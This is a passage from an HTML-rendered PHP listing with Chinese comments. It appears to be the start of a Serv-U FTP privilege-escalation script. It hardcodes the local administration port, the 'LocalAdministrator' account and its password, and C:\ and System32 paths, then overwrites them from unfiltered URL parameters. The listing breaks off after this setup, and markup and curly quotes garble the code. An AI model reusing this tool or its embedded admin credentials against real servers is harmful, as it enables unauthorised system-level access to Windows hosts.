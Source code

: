     </li>
    <li class="alt">
      <span><span class="comment">//变量初始化</span><span>&nbsp;&nbsp;</span></span>
    </li>
    <li class="">
      <span><span class="vars">$addr</span><span>&nbsp;=&nbsp;</span><span class="string">&#8216;127.0.0.1&#8217;</span><span>;&nbsp;&nbsp;</span></span>
    </li>
    <li class="alt">
      <span><span class="vars">$ftpport</span><span>&nbsp;=&nbsp;21;&nbsp;&nbsp;</span></span>
    </li>
    <li class="">
      <span><span class="vars">$adminport</span><span>&nbsp;=&nbsp;43958;&nbsp;&nbsp;</span></span>
    </li>
    <li class="alt">
      <span><span class="vars">$adminuser</span><span>&nbsp;=&nbsp;</span><span class="string">&#8216;LocalAdministrator&#8217;</span><span>;&nbsp;&nbsp;</span></span>
    </li>
    <li class="">
      <span><span class="vars">$adminpass</span><span>&nbsp;=&nbsp;</span><span class="string">&#8216;#l@$ak#.lk;0@P&#8217;</span><span>;&nbsp;&nbsp;</span></span>
    </li>
    <li class="alt">
      <span><span class="vars">$user</span><span>&nbsp;=&nbsp;</span><span class="string">&#8216;110&#8217;</span><span>;&nbsp;&nbsp;</span></span>
    </li>
    <li class="">
      <span><span class="vars">$password</span><span>&nbsp;=&nbsp;</span><span class="string">&#8216;110&#8217;</span><span>;&nbsp;&nbsp;</span></span>
    </li>
    <li class="alt">
      <span><span class="vars">$homedir</span><span>&nbsp;=&nbsp;</span><span class="string">&#8216;C:\\';</span>&nbsp;</span>
    </li>
    <li class="">
      <span><span class="string">$dir&nbsp;=&nbsp;&#8216;</span><span>C:\\WINNT\\System32\\</span><span class="string">&#8216;;</span>&nbsp;</span>
    </li>
    <li class="alt">
      <span>&nbsp;</span>
    </li>
    <li class="">
      <span>&nbsp;</span>
    </li>
    <li class="alt">
      <span><span class="string">//有改变则赋值</span>&nbsp;</span>
    </li>
    <li class="">
      <span><span class="string">if&nbsp;($_GET){</span>&nbsp;</span>
    </li>
    <li class="alt">
      <span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$addr&nbsp;=&nbsp;$_GET['</span><span>addr</span><span class="string">']&nbsp;;&nbsp;&nbsp;</span></span>
    </li>
    <li class="">
      <span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$ftpport&nbsp;=&nbsp;$_GET['<span>ftpport</span><span class="string">']&nbsp;;</span>&nbsp;</span>
    </li>
    <li class="alt">
      <span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$adminport&nbsp;=&nbsp;$_GET['</span><span>adminport</span><span class="string">']&nbsp;;&nbsp;&nbsp;</span></span>
    </li>
    <li class="">